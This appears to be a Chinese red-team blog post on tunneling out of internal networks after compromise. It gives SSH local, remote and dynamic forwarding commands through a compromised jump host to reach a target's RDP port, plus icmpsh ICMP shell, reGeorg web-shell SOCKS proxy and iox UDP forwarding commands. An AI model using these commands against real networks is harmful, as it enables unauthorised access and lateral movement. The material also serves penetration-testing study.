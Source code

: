 ```yaml
---
title: 内网穿透-隧道搭建-001   --花无名    
layout: mypost
categories: [红队攻防]
---
```


# 内网穿透-隧道搭建-001     


## SSH通道

将目标机器上的3389端口映射到vps上

**1.本地转发**

在vps上执行：

`ssh -CfNg -L 1153（VPS端口）:1.1.1.10:3389(目标机器及端口) root@192.168.1.11(被控跳板机)`

查看连接情况：

`Netstat -tulnp | grep "1153"`

连接目标机器3389

`rdesktop 127.0.0.1:1153(vps)`

**2.远程转发**

vps执行：

`ssh -CfNg -R 3307（VPS端口）:1.1.1.10:3389(目标机器及端口) root@192.168.1.11(被控跳板机)`

连接目标机器3389

`rdesktop 127.0.0.1:3307(vps)`

注：本地转发是将远程主机（服务器）某个端口的数据转发到本地机器的指定端口。远程端口转发则是在远程主机上监听一个端口，所有访问远程服务器指定端口的数据都会通过SSH隧道传输到本地的对应端口

**3.动态转发**

`ssh -CfNg -D 7000（监听端口） root@192.168.1.11(被控机器)`

SSH隧道常用参数

-C： 压缩传输，提高传输速度

-f：将SSH传输转入后台执行，不占用当前的shell

-N：建立静默连接（建立了连接，但是看不到具体会话）

-g：允许远程主机连接本地用于转发的端口

-L：本地端口转发

-R：远程端口转发

-D：动态转发（socks代理）

-P：指定SSH端口

## ICMP协议

使用工具icmpsh

关闭ping命令

`Sysctl -w net.ipv4.icmp_echo_ignore_all=1`

`Icmpsh.exe -t 192.168.1.7 -d 500 -b 30 -s 128`

## HTTP协议

工具：reGeorg

上传reg脚本后，当页面“Georg says, 'All seems fine'”，表示脚本运行正常

本地机器执行：

`python2 reGeorgSocksProxy.py -p 9999 -u http://ip:8080/tunnel/tunnel.jsp`

注：流量为明文，需要隐藏时可下载neo-reGeorg



## UDP

工具：IOX

```
./iox fwd -l 53 -r *127.0.0.1:8888 -k 000102 -u
./iox fwd -l *8888 -l *9999 -k 000102 -u
./iox fwd -r *127.0.0.1:9999 -r 8.8.8.8:53 -k 000102 -u
```

更多见官方介绍 ，[iox](https://github.com/EddieIvan01/iox)



---

